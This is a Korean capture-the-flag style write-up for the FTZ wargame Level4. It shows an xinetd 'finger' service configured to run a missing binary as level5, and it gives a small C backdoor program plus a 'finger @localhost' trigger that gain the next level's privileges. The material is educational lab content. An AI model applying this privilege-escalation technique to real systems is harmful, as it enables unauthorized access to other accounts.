 ```yaml
---
title: "[FTZ] Level4 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "Level4 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ Level4 풀이
{: .notice--warning}


# 문제

계정 : level4/suck my brain

**hint**
```
누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```

# 풀이

/etc/xinetd.d/ 폴더를 보니, ```backdoor```파일이 생성되어 있습니다.

![image](https://user-images.githubusercontent.com/33647663/167292877-3f07315f-82c0-4520-a15d-85d13f09e7e5.png)

```sh
[level4@ftz level4]$ cat /etc/xinetd.d/backdoor
service finger
{
        disable = no
        flags           = REUSE
        socket_type     = stream
        wait            = no
        user            = level5
        server          = /home/level4/tmp/backdoor
        log_on_failure  += USERID
}
```

위의 xinetd 설정 파일은 다음과 같이 동작합니다.
1. service finger -> /etc/services에 설정된 파일에 따라서 79번 포트로 들어오는 finger서비스에 대한 요청을 해당 파일에서 처리 한다는 의미
2. disable = no  -> yes는 끈다는 의미고 no는 작동중
3. flags,socket_type,wait -> tcp 서비스일때 이렇게 작성해 줌
4. user = level5 -> 아래 server 파일을 작동시킬 때 권한이 level5임
5. server -> 해당 서비스가 들어오면, user 권한에 따라서 ../tmp/backdoor 파일이 실행된다는 의미

즉 현재 79번 포트로 들어온 요청에 대해서 level5의 권한으로 backdoor를 실행하도록 설정되어 있습니다.

/home/level4/tmp/backdoor 파일은 현재 존재 하지 않습니다.

따라서 다음과 같이 /tmp 폴더에 backdoor.c 파일을 만들어 줍니다.

**backdoor.c**
```c
#include <stdio.h>

int main(){
  system("my-pass");
  return 0;
}
```

만든 뒤에 /tmp 폴더에서 backdoor라는 이름으로 컴파일 해 줍니다.

```sh
gcc -o backdoor backdoor.c
```

이제 백도어 파일이 대기하고 있으므로, 79번 포트로 서비스를 요청해 줍니다.

서비스는 다음과 같이 요청합니다.

```sh
finger @localhost
```

![image](https://user-images.githubusercontent.com/33647663/167293218-01b7bd04-9e41-4733-bc73-952be4a819b5.png)